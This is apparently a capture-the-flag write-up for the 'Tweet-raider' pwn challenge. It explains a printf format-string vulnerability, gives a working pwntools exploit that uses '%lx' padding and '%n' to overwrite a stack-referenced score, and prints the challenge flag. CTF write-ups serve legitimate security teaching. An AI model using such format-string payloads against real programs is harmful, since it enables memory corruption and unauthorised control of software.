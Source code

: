 ![img/Tweet-raider_0.png](img/Tweet-raider_0.png)

Analyzing the main, we see that it takes as input a string of 280 characters and saves them in "s". 
An unsigned integer is then allocated and his pointes is saved in "v3", which is on the stack. 
After that, a printf with format string vulnerability occurs. Then the `calculateScore ()` function is invoked, which calculates the score and saves it in "*v3".
If "*v3" is greater than 9000 we get the flag.
Let's see what `calculateScore` does:

![img/Tweet-raider_1.png](img/Tweet-raider_1.png)

As we can see, for each occurrence that finds in our input it adds a score.
Unfortunately, our input is limited. We must therefore use the format string to write a number> 9000 in the integer pointed to by "v3". 
The position of "v3" on the stack is 7th.

Exploit:
```python
from pwn import *

p = remote('pwn.ctf.b01lers.com', 1004)

payload = (("%lx"*5).encode())
payload += (("%39321x").encode())
payload += ("%n".encode())

print(p.recvuntil(': ').decode())
p.sendline(payload)
p.interactive()
```

# FLAG
```
pctf{Wh4t's_4ft3r_MAARRRZ?}
```
